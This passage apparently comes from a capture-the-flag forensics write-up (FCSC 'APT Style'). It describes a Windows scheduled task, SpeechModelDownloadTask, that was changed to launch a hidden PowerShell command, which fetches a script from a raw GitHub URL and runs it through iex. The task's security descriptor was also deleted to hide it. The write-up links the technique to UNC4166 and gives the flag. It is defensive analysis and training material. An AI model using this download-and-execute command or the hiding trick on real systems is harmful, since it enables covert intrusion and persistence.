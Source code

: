 ![Task](1_reg.jpg)
![Task's SD](1_reg_sd.jpg)
The *SpeechModelDownloadTask* task was modified:
- Action was modified to add: 
```powershell
powershell.exe -WindowStyle Hidden -noprofile -noninteractive -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('https://raw.githubusercontent.com/witnessstrong/OneDriveUpdater/main/OneDriveUpdater.ps1') -UseBasicParsing|iex"
``` 
which clearly downloads a script from Github and executes it.
- Task's security descriptor was deleted. This makes the tasks invisible to Windows

As for the hacker group using this method, a little search on Mandiant's website give [UNC4166](https://www.mandiant.com/resources/blog/trojanized-windows-installers-ukrainian-government)

FLAG: ```FCSC{C:\Windows\System32\config\SYSTEM:UNC4166}```

# APT Style 2/7

